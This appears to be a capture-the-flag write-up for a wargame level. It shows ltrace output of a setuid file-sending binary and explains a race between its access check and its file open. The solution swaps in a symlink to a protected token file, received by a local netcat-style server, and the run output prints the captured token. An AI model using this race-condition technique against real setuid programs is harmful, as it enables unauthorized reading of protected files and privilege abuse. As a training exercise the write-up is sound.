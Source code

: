 # level10 solution
Given setuid binary and token file with no read permissions for our user. We can run this binary with ltrace to get the idea of wht it's doing:

    ltrace ./level10 /tmp/some_file 127.0.0.1
    __libc_start_main(0x80486d4, 3, 0xbffff7b4, 0x8048970, 0x80489e0 <unfinished ...>
    access("/tmp/some_file", 4)                      = 0
    printf("Connecting to %s:6969 .. ", "127.0.0.1") = 32
    fflush(0xb7fd1a20Connecting to 127.0.0.1:6969 .. )                               = 0
    socket(2, 1, 0)                                  = 3
    inet_addr("127.0.0.1")                           = 0x0100007f
    htons(6969, 1, 0, 0, 0)                          = 14619
    connect(3, 0xbffff6fc, 16, 0, 0)                 = 0
    write(3, ".*( )*.\n", 8.*( )*.
    )                         = 8
    printf("Connected!\nSending file .. "Connected!
    )           = 27
    fflush(0xb7fd1a20Sending file .. )                               = 0
    open("/tmp/some_file", 0, 010)                   = 4
    read(4, "", 4096)                                = 0
    write(3, "", 0)                                  = 0
    puts("wrote file!"wrote file!
    )                              = 12
    +++ exited (status 12) +++
    [1]+  Done                    nc -l 127.0.0.1 6969

To run this program we need to start a new server with netcat and create some file which we have access to. Setuid binary accepts file and ip address as arguments, connects to the provided address and sends provided file via tcp stream. This program first checks if we have access to the provided file, then it connects to the server and sends initial message, and only after that it will open provided file and send file content to the server. In this gap between access check and file open we can replace original file with link to the token file. So we have to code server application which accepts one client and immediately removes provided to the setuid binary file with link to the token file, then it should read 2 messages and display second one.

    ./level10 /tmp/level10/token 127.0.0.1
    Connecting to 127.0.0.1:6969 .. Initial message recieved: .*( )*.
    Connected!
    Sending file .. Token recieved: woupa2yuojeeaaed06riuj63c
    wrote file!
    [1]+  Done                    ./server  (wd: /tmp/level10)
    (wd now: ~)
